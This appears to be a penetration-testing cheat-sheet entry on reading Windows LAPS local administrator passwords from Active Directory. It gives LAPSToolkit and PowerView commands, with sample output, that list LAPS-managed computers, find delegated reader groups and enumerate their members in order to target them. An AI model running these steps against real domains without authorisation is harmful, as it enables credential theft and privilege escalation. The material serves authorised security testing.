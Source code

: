 # Windows Credentials - LAPS 

If LAPS is in use, we should try to gain access to the clear text passwords in Active Directory as part of a penetration test.

We can use the LAPSToolkit PowerShell script, which is essentially a wrapper script around the PowerView Active Directory enumeration PowerShell script.

```PowerShell
PS C:\Tools> Import-Module .\LAPSToolkit.ps1
PS C:\Tools> Get-LAPSComputers

ComputerName		Password 	Expiration
------------		-------- 	----------
dev.sinhack.com	       04/12/2021 	02:13:25
```

We have discovered the dev server, which is managed by LAPS, we cannot view the clear text password.

In this case, our current user account does not have permissions to read the password.

We can use the Find-LAPSDelegatedGroups method of LAPSToolkit to discover groups that can fully enumerate the LAPS data.

```PowerShell
PS C:\Tools> Find-LAPSDelegatedGroups
```

Next we can use PowerView to enumerate members of that group.

```PowerShell
PS C:\Tools> Get-NetGroupMember -GroupName "LAPS Password Readers"
```

Users part of the group are allowed to see the plain text password with the LAPSToolKit and Get-LAPSComputers command.